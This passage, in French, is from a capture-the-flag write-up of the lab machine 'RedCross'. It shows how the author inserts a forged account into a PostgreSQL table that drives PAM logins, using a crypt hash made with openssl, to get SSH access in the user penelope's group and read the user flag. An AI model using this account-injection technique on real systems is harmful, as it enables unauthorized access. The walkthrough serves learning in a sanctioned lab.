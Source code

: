 L'autre base nommée *unix* et bien plus intéressante. En particulier elle contient une table *passwd\_table* qui contient les identifiants soumis via l'interface web or on a vu que ceux-ci permettent alors de se connecter via FTP ou SSH.  

Si on regarde les logs du système on voit clairement que le PAM est configuré pour utiliser la table Postgres en question (NB: pas vu de mots de passe stockés dans les logs).  

On dispose de suffisamment de droits pour lister le dossier personnel de l'utilisatrice *penelope* :  

```plain
total 36
drwxr-xr-x 4 penelope penelope 4096 Jun 10  2018 .
drwxr-xr-x 3 root     root     4096 Jun  8  2018 ..
-rw------- 1 root     root        0 Jun  8  2018 .bash_history
-rw-r--r-- 1 penelope penelope    0 Jun  8  2018 .bash_logout
-rw-r--r-- 1 penelope penelope 3380 Jun 10  2018 .bashrc
drwxrwx--- 6 penelope mailadm  4096 Jun  7  2018 haraka
-rw-r--r-- 1 penelope penelope  675 Jun  3  2018 .profile
-rw-r--r-- 1 penelope penelope   24 Jun 10  2018 .psqlrc
drwx------ 2 penelope penelope 4096 Jun  9  2018 .ssh
-rw-r----- 1 root     penelope   33 Jun  7  2018 user.txt
-rw------- 1 penelope penelope  791 Jun 10  2018 .viminfo
```

On est bien sûr tenté de nous ajouter un compte UNIX avec les droits de l'utilisatrice. Pour cela on se connecte à la base de données avec *psql -h 127.0.0.1 -d unix -U unixusrmgr*, on rentre le mot de passe puis on passe la requête suivante :  

```plain
insert into passwd_table (username, passwd, uid, gid, homedir) values ('devloop', '$1$xyz$b0R51BwJVtqELmbicAObd.', 1000, 1000, '/home/penelope');
```

Ici le mot de passe chiffré a été obtenu avec la commande *openssl passwd -1 -salt xyz hell0there*.  

NB: J'ai vu au préalable dans *action.php* que les mot de passe sont chiffrés simplement avec *crypt()*.  

L'opération échoue avec le message  

> ERROR: permission denied for relation passwd\_table

On ne peut pas *emprunter* l'UID de l'utilisatrice. On va donc s'en tenir à son groupe. Les UIDs sont rattachés à une séquence (auto-increment) :  

```plain
insert into passwd_table (username, passwd, gid, homedir) values ('devloop', '$1$xyz$b0R51BwJVtqELmbicAObd.', 1000, '/home/penelope');
```

Cette fois on peut se connecter :  

```plain
devloop@kali:~/Documents/redcross$ ssh devloop@intra.redcross.htb 
devloop@intra.redcross.htb's password: 
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
devloop@redcross:~$ pwd
/home/penelope
devloop@redcross:~$ ls
haraka  user.txt
devloop@redcross:~$ cat user.txt 
ac899bd-- snip --29bf
```
